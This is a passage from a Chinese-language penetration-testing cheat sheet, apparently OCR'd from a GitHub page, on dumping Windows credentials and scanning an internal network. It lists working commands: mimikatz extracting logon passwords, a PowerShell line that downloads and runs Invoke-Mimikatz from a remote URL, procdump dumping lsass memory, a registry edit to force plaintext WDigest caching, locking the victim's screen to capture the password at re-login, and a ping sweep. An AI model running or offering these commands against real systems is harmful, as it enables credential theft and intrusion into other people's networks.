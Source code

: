 mimikatz需要进行免杀，procdump是微软发布的工具。

```
## mimikatz直接导出

-----exe版本------
mimikatz.exe privilege::debug sekurlsa::logonpasswords exit >>c:\windows\temp\test.txt

-----powershell版本---------
powershell IEX (New-Object
Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit
/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz

## procdump 导出 + mimikatz本地解析

目标机器：
Procdump.exe -accepteula -ma lsass.exe lsass.dmp

本地机器（需要和目标机器的系统一致，目标是win08的 64 位，本地也是需要对应的win08的 64 位）：
sekurlsa::minidump lsass.dump.dmp
sekurlsa::logonpasswords full
```

#### 3-高版本系统中密码导出为空的处理

从Windows server 2012开始，默认情况下不保存明文，修改注册表，并等待管理员重新登录，才能获得明文。

```
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v
UseLogonCredential /t REG_DWORD /d 1 /f
```



在 Cobalt Strike 或者 MSF 等渗透攻击框架中，我们可以通过 shell 命令运行：

```
shell reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v
UseLogonCredential /t REG_DWORD /d 1 /f
```



要主机的用户重新登录到系统，可以让目标机器屏幕锁屏、重新启动或注销用户，以便你能够抓取到明文。最简单的方法是锁定他们的工作机器，要触发锁屏：

```
rundll32.exe user32.dll LockWorkStation
```



### 二、扫描存活

#### 1-初步内网存活探测 [ 单基于icmp的扫描 ]

```
for /L %a in (1,1,254) DO @ping -n 1 192 .168.1.%a | findstr "TTL" >> pinglog.txt
```

